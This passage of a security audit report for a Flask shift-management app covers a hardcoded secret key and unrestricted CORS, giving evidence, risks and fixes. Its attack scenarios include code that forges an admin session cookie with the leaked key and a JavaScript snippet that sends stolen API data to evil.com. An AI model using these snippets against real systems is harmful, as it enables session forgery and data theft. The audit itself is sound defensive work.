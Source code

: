 **Attack Scenario:**
```python
# Attacker can create valid session cookies
from flask.sessions import SecretKey
from itsdangerous import URLSafeTimedSerializer

s = URLSafeTimedSerializer('corrected-foundry-system-2024')
forged_session = s.dumps({'current_shift_id': 123, 'admin': True})
# Use forged_session cookie to access system as any user
```

**Recommendation:**
```python
import os
import secrets

# In production, set via environment variable
SECRET_KEY = os.getenv('SECRET_KEY')
if not SECRET_KEY:
    if os.getenv('FLASK_ENV') == 'production':
        raise ValueError("SECRET_KEY must be set in production")
    # Only for development
    SECRET_KEY = secrets.token_hex(32)
    logger.warning("Using generated SECRET_KEY for development")

app.config['SECRET_KEY'] = SECRET_KEY
```

### 3.2 Unrestricted CORS

**Severity:** HIGH

**Location:** `main.py:303`

**Evidence:**
```python
CORS(app)  # Allows ALL origins
```

**Risks:**
1. Any website can make requests to the API
2. Enables Cross-Site Request Forgery (CSRF) attacks
3. Allows data exfiltration from any origin
4. No protection against malicious scripts

**Attack Scenario:**
```javascript
// Malicious website at evil.com can access the API:
fetch('http://foundry-system.local:5005/api/shifts/current')
    .then(r => r.json())
    .then(data => {
        // Steal sensitive shift data
        fetch('http://evil.com/steal', {
            method: 'POST',
            body: JSON.stringify(data)
        });
    });
```
